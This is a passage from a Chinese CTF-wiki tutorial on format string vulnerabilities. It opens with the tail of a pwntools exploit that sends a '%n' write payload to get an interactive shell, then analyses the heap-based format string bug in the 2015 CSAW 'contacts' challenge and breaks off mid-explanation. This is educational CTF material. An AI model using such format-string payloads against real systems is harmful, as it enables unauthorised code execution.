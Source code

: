 ```python
#0x4008aa-0x4008a6
sh.writeline("%2218d%8$hn")

sh.recv()
sh.writeline("1")
sh.recv()
sh.interactive()
```

## 堆上的格式化字符串漏洞

### 原理

所谓堆上的格式化字符串指的是格式化字符串本身存储在堆上，这个主要增加了我们获取对应偏移的难度，而一般来说，该格式化字符串都是很有可能被复制到栈上的。

### 例子

这里我们以 2015 年 CSAW 中的 [contacts](https://github.com/ctf-wiki/ctf-challenges/tree/master/pwn/fmtstr/2015-CSAW-contacts) 为例进行介绍。

#### 确定保护

```shell
➜  2015-CSAW-contacts git:(master) ✗ checksec contacts
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

可以看出程序不仅开启了 NX 保护还开启了 Canary。

#### 分析程序

简单看看程序，发现程序正如名字所描述的，是一个联系人相关的程序，可以实现创建，修改，删除，打印联系人的信息。而再仔细阅读，可以发现在打印联系人信息的时候存在格式化字符串漏洞。

```C
int __cdecl PrintInfo(int a1, int a2, int a3, char *format)
{
  printf("\tName: %s\n", a1);
  printf("\tLength %u\n", a2);
  printf("\tPhone #: %s\n", a3);
  printf("\tDescription: ");
  return printf(format);
}
```

仔细看看，可以发现这个 format 其实是指向堆中的。

#### 利用思路

我们的基本目的是获取系统的 shell，从而拿到 flag。其实既然有格式化字符串漏洞，我们应该是可以通过劫持got表或者控制程序返回地址来控制程序流程。但是这里却不怎么可行。原因分别如下
